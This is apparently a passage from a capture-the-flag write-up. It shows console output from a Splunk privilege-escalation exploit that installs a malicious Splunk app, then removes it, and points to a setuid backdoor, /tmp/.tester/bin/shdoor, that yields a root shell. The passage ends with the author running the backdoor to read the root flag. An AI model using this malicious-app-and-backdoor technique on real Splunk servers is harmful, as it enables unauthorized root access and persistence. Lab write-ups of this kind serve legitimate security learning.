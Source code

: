 




    [*] Removing the malicious splunk app...
    HTTP/1.1 200 OK
    Date: Tue, 29 Sep 2020 09:22:44 GMT
    Expires: Thu, 26 Oct 1978 00:00:00 GMT
    Cache-Control: no-store, no-cache, must-revalidate, max-age=0
    Content-Type: text/xml; charset=UTF-8
    X-Content-Type-Options: nosniff
    Content-Length: 1797
    Vary: Cookie, Authorization
    Connection: Close
    X-Frame-Options: SAMEORIGIN
    Server: Splunkd

    <?xml version="1.0" encoding="UTF-8"?>
    <!--This is to override browser formatting; see server.conf[httpServer] to disable. . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . .-->
    <?xml-stylesheet type="text/xml" href="/static/atom.xsl"?>
    <feed xmlns="http://www.w3.org/2005/Atom" xmlns:s="http://dev.splunk.com/ns/rest" xmlns:opensearch="http://a9.com/-/spec/opensearch/1.1/">
      <title>localapps</title>
      <id>https://127.0.0.1:8089/services/apps/local</id>
      <updated>2020-09-29T11:22:44+02:00</updated>
      <generator build="a1a6394cc5ae" version="8.0.5"/>
      <author>
        <name>Splunk</name>
      </author>
      <link href="/services/apps/local/_new" rel="create"/>
      <link href="/services/apps/local/_reload" rel="_reload"/>
      <opensearch:totalResults>0</opensearch:totalResults>
      <opensearch:itemsPerPage>30</opensearch:itemsPerPage>
      <opensearch:startIndex>0</opensearch:startIndex>
      <s:messages/>
    </feed>



    [!] If all went well run /tmp/.tester/bin/shdoor -p for a root shell
    [!] Run whoami if your prompt didn't change...

    [!] DELETE THE .tester DIRECTORY AS ROOT WHEN YOU'RE DONE! [!]

We then run the binary `shdoor` and get a root shell allowing us to retrive the
root flag.
